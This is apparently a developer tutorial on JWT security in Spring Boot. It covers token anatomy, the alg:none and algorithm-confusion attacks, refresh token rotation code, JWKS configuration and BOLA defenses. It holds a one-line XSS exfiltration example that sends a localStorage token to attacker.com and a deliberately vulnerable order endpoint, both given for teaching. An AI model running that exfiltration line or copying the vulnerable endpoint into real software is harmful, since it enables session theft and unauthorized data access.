



# Enterprise JWT Architecture & Security

In modern backend engineering, **Authentication** proves identity (*"Who are you?"*), while **Authorization** enforces permissions (*"What resources are you allowed to access or mutate?"*).

Carrying authentication state via JSON Web Tokens (JWT) enables horizontally scalable, stateless microservices. However, naive JWT implementations—such as issuing 30-day non-expiring access tokens stored in browser `localStorage`—create catastrophic security vulnerabilities that expose entire user bases to account takeovers.

---

## 1. JWT Cryptographic Anatomy & Common Vulnerabilities

The signed JWT form used here is a compact JWS: three Base64Url parts separated by dots (`.`). JWT also supports encrypted forms; this chapter uses signed access tokens.

```jwt
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCIsImtpZCI6ImF1dGgta2V5LTAxIn0.
eyJzdWIiOiI5ODQyIiwiZW1haWwiOiJhbGljZUBleGFtcGxlLmNvbSIsInJvbGVzIjpbIlJPTEVfVVNFUiJdLCJpYXQiOjE3MjYwMDAwMDAsImV4cCI6MTcyNjAwMDkwMH0.
q7O2y9sX5b_...[Cryptographic Signature]
```



### 1.1 Registered Standard Claims
- `sub` (Subject): The unique, immutable identifier of the principal (e.g., UUID or user ID `9842`).
- `iss` (Issuer): The identity provider that issued the token (e.g., `https://auth.company.com`).
- `aud` (Audience): The intended recipient service (e.g., `https://api.company.com`).
- `exp` (Expiration Time): Unix epoch timestamp after which the token is invalid.
- `nbf` (Not Before): Unix epoch timestamp before which the token must not be accepted.
- `iat` (Issued At): Unix epoch timestamp indicating when the token was minted.
- `jti` (JWT ID): A token identifier. It only helps prevent replay if a verifier records and checks its use.

<Warning>
A JWT is **signed, not encrypted**! Anyone who intercepts the token can decode the Base64Url string and read its payload. Never store passwords, credit card numbers, or sensitive PII inside JWT claims.
</Warning>

### 1.2 Two Catastrophic JWT Vulnerabilities

#### 1. The `alg: "none"` Attack
In broken JWT libraries, an attacker modifies the token header to `{"alg": "none"}`, changes the payload claim to `{"sub": "admin"}`, strips the signature, and submits the token. Insecure parsers accept the token without verifying any signature! 
- **Defense**: Explicitly reject tokens specifying `alg: "none"` in your JWT decoder configuration.

#### 2. The Algorithm Confusion Attack (RSA to HMAC)
If an application uses asymmetric RSA (RS256) where the server signs with a private key and verifies with a public key, an attacker can modify the token header to symmetric `{"alg": "HS256"}`. 
If the backend uses the same verification method and passes its RSA public key string as the verification key, the HMAC validator treats the public key string as the symmetric shared secret. The attacker, possessing the public key, signs a forged admin token using HMAC-SHA256!
- **Defense**: Strictly whitelist allowed algorithms (`JWSAlgorithm.RS256`) during decoder bean creation.

---

## 2. The Dual-Token Architecture: Access + Refresh Tokens

Self-contained access tokens usually remain valid until expiry. Immediate revocation needs a state check, such as a denylist, session version, or token introspection. That adds latency and an availability dependency; it does not make JWTs useless. 

To balance security and scalability, modern backends implement the **Dual-Token Architecture**:

| Token Type | Lifespan | Transmission & Storage | Primary Purpose |
| :--- | :--- | :--- | :--- |
| **Access Token** | **10 to 15 minutes** | Transmitted via `Authorization: Bearer <token>` in RAM memory. | Authorizes individual REST API requests at the resource server. |
| **Refresh Token** | **7 to 30 days** | Stored in an `HttpOnly`, `Secure`, `SameSite=Strict` cookie. | Exchanged at `/api/auth/refresh` to issue a new Access/Refresh pair. |



### Why `localStorage` is an Enterprise Anti-Pattern
Storing tokens in browser `localStorage` exposes them to any JavaScript running on the page. If a third-party npm package, analytics script, or CDN injection contains a Cross-Site Scripting (XSS) vulnerability, an attacker runs:
```javascript
fetch("https://attacker.com/steal?token=" + localStorage.getItem("token"));
```
An **`HttpOnly` cookie** hides that cookie value from JavaScript. XSS can still send authenticated requests and read access tokens returned to the compromised page. Prevent XSS as well. Because the browser sends cookies automatically, protect refresh and login endpoints against CSRF; `SameSite` is an additional defense. See the [two-chain security example](/spring-boot/spring-security-production).

---

## 3. Refresh Token Rotation (RTR) & Family Reuse Detection

What happens if an attacker manages to steal a refresh token from network transit?

Without **Refresh Token Rotation (RTR)**, the attacker can silently generate new access tokens for 30 days. RTR enforces that **every refresh token is strictly single-use**. When presented, it is invalidated and replaced with a brand-new refresh token.

### Automatic Theft Detection via Token Families
A **token family** represents one login session. Reusing a consumed token revokes that family and prevents further refreshes. Previously issued access tokens can still work until expiry. Concurrent browser tabs and retries after a lost response can also look like theft, so serialize refreshes in the client and document that reuse requires login again. Keep consumed token hashes until the family expires so replays remain detectable. [OAuth security guidance on refresh tokens](https://www.rfc-editor.org/rfc/rfc9700.html#section-4.14)

```mermaid
sequenceDiagram
    autonumber
    actor LegitimateUser as Legitimate User
    actor Attacker as Attacker (Has Stolen R1)
    participant AuthServer as Auth Server (Token Family Store)

    Note over LegitimateUser,AuthServer: 1. Legitimate user uses Token R1 to refresh
    LegitimateUser->>AuthServer: POST /refresh (Token R1)
    AuthServer->>AuthServer: Mark R1 as USED; Issue R2 (Family F-100)
    AuthServer-->>LegitimateUser: Returns Token R2
    
    Note over Attacker,AuthServer: 2. Attacker attempts to use stolen Token R1
    Attacker->>AuthServer: POST /refresh (Token R1)
    AuthServer->>AuthServer: ALERT: Token R1 was ALREADY USED!
    AuthServer->>AuthServer: REUSE DETECTED: Revoke ENTIRE Family F-100!
    AuthServer-->>Attacker: 401 Unauthorized (Session Revoked)
    
    Note over LegitimateUser,AuthServer: 3. Legitimate user next attempts to refresh
    LegitimateUser->>AuthServer: POST /refresh (Token R2)
    AuthServer-->>LegitimateUser: 401 Unauthorized (Security Alert: Please log in again)
```

### 3.1 Database Schema for Token Families

Lock one family row before rotating any token in that family. Locking only the incoming token does not serialize a replay of an old token with a refresh of its successor.

```sql
CREATE TABLE refresh_families (
    id UUID PRIMARY KEY,
    user_id BIGINT NOT NULL REFERENCES users(id) ON DELETE CASCADE,
    revoked BOOLEAN NOT NULL DEFAULT FALSE,
    expires_at TIMESTAMPTZ NOT NULL
);

CREATE TABLE refresh_tokens (
    id BIGSERIAL PRIMARY KEY,
    token_hash VARCHAR(64) NOT NULL UNIQUE,
    family_id UUID NOT NULL REFERENCES refresh_families(id) ON DELETE CASCADE,
    used BOOLEAN NOT NULL DEFAULT FALSE,
    expires_at TIMESTAMPTZ NOT NULL,
    created_at TIMESTAMPTZ NOT NULL DEFAULT CURRENT_TIMESTAMP
);

CREATE INDEX idx_refresh_tokens_family ON refresh_tokens(family_id);
```

The unique constraint already indexes `token_hash`. At login, create a family with an absolute expiry and its first token in one transaction. Generate each raw token from 32 random bytes using `SecureRandom`; store only its SHA-256 hash. The family identifier is a grouping key, not a credential.

### 3.2 Commit Revocation Before Returning an Error

A subtle bug is to update `revoked = TRUE` and then throw `BadCredentialsException` inside `@Transactional`. The exception is unchecked, so the default transaction interceptor rolls back the revocation. Return a rejected outcome normally, commit, then let the controller produce the authentication error. [Spring transaction rollback rules](https://docs.spring.io/spring-framework/reference/data-access/transaction/declarative/rolling-back.html)

This is a service excerpt for Spring Boot 3.2+ with JDBC and PostgreSQL. It needs the schema above and a configured `AccessTokenIssuer` bean. It is not a complete authorization server.

```java
package com.example.security.auth;

import org.springframework.jdbc.core.simple.JdbcClient;
import org.springframework.stereotype.Service;
import org.springframework.transaction.annotation.Isolation;
import org.springframework.transaction.annotation.Transactional;

import java.nio.charset.StandardCharsets;
import java.security.MessageDigest;
import java.security.NoSuchAlgorithmException;
import java.security.SecureRandom;
import java.sql.Timestamp;
import java.time.Instant;
import java.time.temporal.ChronoUnit;
import java.util.Base64;
import java.util.HexFormat;
import java.util.UUID;

@Service
public class RefreshTokenService {
    private final JdbcClient jdbc;
    private final AccessTokenIssuer issuer;
    private final SecureRandom random = new SecureRandom();

    public RefreshTokenService(JdbcClient jdbc, AccessTokenIssuer issuer) {
        this.jdbc = jdbc;
        this.issuer = issuer;
    }

    public interface AccessTokenIssuer {
        // Local signing using configured keys; no remote I/O while holding locks.
        String issue(long userId);
    }

    public sealed interface Outcome permits Issued, Rejected {}
    public record Issued(String accessToken, String refreshToken) implements Outcome {}
    public record Rejected() implements Outcome {}
    private record Family(UUID id, long userId, boolean revoked, Instant expiresAt) {}
    private record Token(long id, boolean used, Instant expiresAt) {}

    @Transactional(isolation = Isolation.READ_COMMITTED, timeout = 5)
    public Outcome rotate(String rawToken) {
        if (rawToken == null || rawToken.length() != 43) {
            return new Rejected();
        }
        String hash = hash(rawToken);
        var family = jdbc.sql("""
            SELECT f.id, f.user_id, f.revoked, f.expires_at
            FROM refresh_families f
            JOIN refresh_tokens t ON t.family_id = f.id
            WHERE t.token_hash = :hash
            FOR UPDATE OF f
            """)
            .param("hash", hash)
            .query((rs, row) -> new Family(rs.getObject("id", UUID.class),
                rs.getLong("user_id"), rs.getBoolean("revoked"),
                rs.getTimestamp("expires_at").toInstant()))
            .optional();

        if (family.isEmpty()) return new Rejected();
        Family f = family.get();
        Instant now = Instant.now();
        if (f.revoked() || !f.expiresAt().isAfter(now)) return new Rejected();

        // Read token state AFTER acquiring the family lock.
        Token token = jdbc.sql("""
            SELECT id, used, expires_at FROM refresh_tokens WHERE token_hash = :hash
            """)
            .param("hash", hash)
            .query((rs, row) -> new Token(rs.getLong("id"), rs.getBoolean("used"),
                rs.getTimestamp("expires_at").toInstant()))
            .single();

        if (token.used()) {
            jdbc.sql("UPDATE refresh_families SET revoked = TRUE WHERE id = :id")
                .param("id", f.id()).update();
            return new Rejected(); // Normal return permits the revocation to commit.
        }
        if (!token.expiresAt().isAfter(now)) return new Rejected();

        int consumed = jdbc.sql("""
            UPDATE refresh_tokens SET used = TRUE WHERE id = :id AND used = FALSE
            """).param("id", token.id()).update();
        if (consumed != 1) throw new IllegalStateException("Token state changed unexpectedly");

        byte[] bytes = new byte[32];
        random.nextBytes(bytes);
        String next = Base64.getUrlEncoder().withoutPadding().encodeToString(bytes);
        Instant nextExpiry = now.plus(7, ChronoUnit.DAYS);
        if (nextExpiry.isAfter(f.expiresAt())) nextExpiry = f.expiresAt();

        jdbc.sql("""
            INSERT INTO refresh_tokens (token_hash, family_id, expires_at)
            VALUES (:hash, :family, :expires)
            """)
            .param("hash", hash(next)).param("family", f.id())
            .param("expires", Timestamp.from(nextExpiry)).update();
        return new Issued(issuer.issue(f.userId()), next);
    }

    private static String hash(String raw) {
        try {
            return HexFormat.of().formatHex(MessageDigest.getInstance("SHA-256")
                .digest(raw.getBytes(StandardCharsets.UTF_8)));
        } catch (NoSuchAlgorithmException e) {
            throw new IllegalStateException(e);
        }
    }
}
```

`SELECT ... FOR UPDATE` holds the family lock until the transaction ends. All rotation and logout paths must follow the same family-lock protocol. Apply a database lock timeout too. [PostgreSQL row locking](https://www.postgresql.org/docs/17/explicit-locking.html#LOCKING-ROWS)

The HTTP controller must call this Spring bean **without an outer transaction**. After `rotate()` returns, its transaction has committed. Map `Rejected` to `401` and clear the refresh cookie. Map `Issued` to an access-token response and a replacement `HttpOnly` refresh cookie. Never expose the raw refresh token in JSON or logs. If signing or insertion throws, the whole rotation rolls back and the previous token remains usable.

### 3.3 Tests That Expose the Original Bugs

Use real PostgreSQL and call the proxied bean from separate worker threads. Do not annotate the test with `@Transactional`; seed data must be committed before workers start. Collect every `Future` with a timeout so worker failures fail the test.

| Scenario | Required result after a fresh database read |
| :--- | :--- |
| First use of R1 | One successor R2; R1 marked used. |
| Replay R1 after rotation | `Rejected`; family remains revoked after the method returns. |
| R2 after replay of R1 | `Rejected`; no R3 inserted. |
| Two simultaneous uses of R1 | At most one issuance; other request revokes the family. |
| Replay R1 racing with use of R2 | Final family state is revoked; no descendant can refresh. |
| Token at its expiry instant | Rejected, not accepted for one more second. |
| Issuer fails while signing | Transaction rolls back; R1 unused; no successor remains. |
| Lost success response followed by retry | Reuse policy requires login again; behavior is documented. |

**Debug task:** remove the family lock and add a barrier between reading and updating the token. Reproduce sibling issuance. Then restore the lock and show the same test prevents it. Next, throw after setting `revoked` and show the persisted revocation assertion fails.

---

## 4. Asymmetric Signing (RS256) & JWKS Key Distribution

In microservices architectures, symmetric signing (`HS256`) is dangerous because every microservice verifying tokens must possess the shared secret key. If a developer logs the secret or one minor service is breached, an attacker can forge valid tokens for the entire enterprise.

**Production Standard**: Use asymmetric **RS256** (RSA 2048/4096-bit) or **ES256** (ECDSA):
- **Private Key**: Guarded exclusively inside the Auth Server to sign tokens.
- **Public Key**: Exposed publicly via a **JSON Web Key Set (JWKS)** endpoint (`/.well-known/jwks.json`).



### 4.1 Sample JWKS Response (`/.well-known/jwks.json`)

```json
{
  "keys": [
    {
      "kty": "RSA",
      "use": "sig",
      "alg": "RS256",
      "kid": "auth-key-2026-09",
      "n": "u1wK_...[RSA Public Modulus]...",
      "e": "AQAB"
    }
  ]
}
```

### 4.2 Spring Boot 3 Resource Server Configuration

Add `spring-boot-starter-oauth2-resource-server` and enable `.oauth2ResourceServer(o -> o.jwt(j -> {}))` in the bearer filter chain. Configure the trusted issuer, expected audience, key endpoint, and allowed algorithm:

```yaml
spring:
  security:
    oauth2:
      resourceserver:
        jwt:
          issuer-uri: "https://auth.example.com"
          jwk-set-uri: "https://auth.example.com/.well-known/jwks.json"
          audiences: "https://api.example.com"
          jws-algorithms: RS256
```

This configuration targets Spring Boot 3.5 / Spring Security 6.5. The decoder checks the signature, time claims, issuer, and audience. A JWKS address alone does not establish the expected issuer or audience. A custom `JwtDecoder` bean replaces Boot's decoder configuration, so it must install equivalent validators explicitly. [Spring Security resource-server configuration](https://docs.spring.io/spring-security/reference/6.5/servlet/oauth2/resource-server/jwt.html)

---

## 5. Method-Level Security & Broken Object Level Authorization (BOLA / IDOR)

**Broken Object Level Authorization (BOLA / IDOR)** means an authenticated user can access a resource they are not allowed to use.

A BOLA vulnerability occurs when an endpoint verifies that a user is logged in, but fails to verify that the logged-in user actually **owns** the requested resource:

```java
// VULNERABLE BOLA CODE:
@GetMapping("/orders/{orderId}")
public OrderResponse getOrder(@PathVariable Long orderId) {
    // BUG: Any authenticated user can view ANY OTHER user's order by changing the ID!
    return orderRepository.findById(orderId)
            .map(OrderResponse::from)
            .orElseThrow();
}
```

### Defense: Query by Resource and Authenticated Owner

Use the validated identity to scope the database query. Do not accept an `Order` entity or owner ID from the client and use that supplied ownership field as proof.

```java
@GetMapping("/orders/{orderId}")
public OrderResponse getOrder(
        @PathVariable Long orderId,
        @AuthenticationPrincipal Jwt jwt) {
    // Account mapping uses both trusted issuer and subject.
    Long customerId = accountService.requireLocalAccount(jwt.getIssuer(), jwt.getSubject());
    return orderRepository.findByIdAndCustomerId(orderId, customerId)
        .map(OrderResponse::from)
        .orElseThrow(() -> new ResourceNotFoundException("Order not found"));
}
```

This controller excerpt assumes an `accountService` that maps the validated `(issuer, subject)` to an existing local account. The default JWT principal has `getSubject()`, not a custom `id` field. For writes, scope the update itself or load and authorize the stored row inside a transaction. See [atomic ownership-scoped deletion](/spring-boot/spring-security-production).

---

## 6. Active Recall Interview Mastery

<AccordionGroup>
  <Accordion title="1. Why should you store refresh tokens in HttpOnly cookies instead of browser localStorage?">
    Storing tokens in `localStorage` makes them completely accessible to any JavaScript running within the application. If the application has an XSS (Cross-Site Scripting) vulnerability via an unescaped UI render or a compromised third-party npm script, the attacker can execute `localStorage.getItem()` and steal the token.
    
    `HttpOnly` cookies cannot be accessed or read by client-side JavaScript (`document.cookie` ignores them). The browser automatically includes the cookie in requests to the auth origin, hiding the cookie value from JavaScript. XSS can still perform authenticated actions; prevent XSS and retain CSRF protection for cookie endpoints.
  </Accordion>

  <Accordion title="2. How does Refresh Token Rotation (RTR) protect users if a refresh token is stolen?">
    RTR makes every refresh token single-use. When a user presents Token R1, the server marks R1 as used and issues R2 within the same cryptographic `family_id`.
    
    If an attacker intercepted Token R1 and attempts to use it later, the server detects that R1 has already been used. This triggers **Family Reuse Detection**: the server immediately revokes every active token sharing that `family_id`. The legitimate user will be asked to log in again, and further refreshes stop. Existing access tokens remain valid until expiry unless the API also checks revocation state.
  </Accordion>

  <Accordion title="3. What is the difference between HS256 and RS256 signing for JWTs? Which should you use in microservices?">
    - **HS256 (HMAC-SHA256)**: Symmetric signing. The same secret key is used to both sign and verify tokens.
    - **RS256 (RSA-SHA256)**: Asymmetric signing. The issuing server signs tokens with a private key, and consuming servers verify signatures using a public key.
    
    In microservices, **RS256 is the standard**. If HS256 were used, every microservice would need the private secret key, increasing the attack surface. With RS256, microservices only need the public key (fetched via JWKS), meaning even if a microservice is breached, the attacker cannot forge new tokens.
  </Accordion>

  <Accordion title="4. What is the 'alg: none' vulnerability in JWT implementations?">
    The JWT specification originally permitted an algorithm header `{"alg": "none"}` for unsigned tokens. In poorly coded libraries, if an attacker manually altered a valid token's header to `{"alg": "none"}` and stripped the signature, the parser skipped signature verification and accepted the payload claims as trusted. 
    
    This allowed attackers to forge arbitrary tokens (e.g. `{"sub": "admin"}`) without possessing any cryptographic keys. Production backends explicitly disallow and reject the `none` algorithm during decoder instantiation.
  </Accordion>

  <Accordion title="5. What is BOLA / IDOR, and what is the single most effective defense against it?">
    **Broken Object Level Authorization (BOLA)** occurs when an endpoint accepts an object ID (e.g., `/api/documents/1042`) and returns the object without verifying that the authenticated user is authorized to view that specific record.
    
    The single most effective defense is **Database Tenancy Scoping**: enforcing the ownership check directly in the SQL query:
    ```sql
    SELECT * FROM documents WHERE id = :id AND owner_user_id = :authenticatedUserId;
    ```
    If the document belongs to another user, the query returns 0 rows, resulting in a clean `404 Not Found` without leaking information.
  </Accordion>
</AccordionGroup>

---

## 7. Done Checklist

<Check>
Access tokens are short-lived (10 to 15 minutes) and kept in client RAM memory.
</Check>
<Check>
Refresh tokens are stored in `HttpOnly`, `Secure`, `SameSite=Strict` cookies to neutralize XSS theft.
</Check>
<Check>
Refresh Token Rotation (RTR) with family-based reuse detection is implemented to automatically revoke compromised sessions.
</Check>
<Check>
Asymmetric signing (RS256/ES256) is used, with public keys exposed via a standard JWKS endpoint (`/.well-known/jwks.json`).
</Check>
<Check>
Resource Server explicitly whitelists valid cryptographic algorithms and rejects `alg: "none"`.
</Check>
<Check>
All resource retrieval queries scope by `authenticated_user_id` to eliminate Broken Object Level Authorization (BOLA).
</Check>
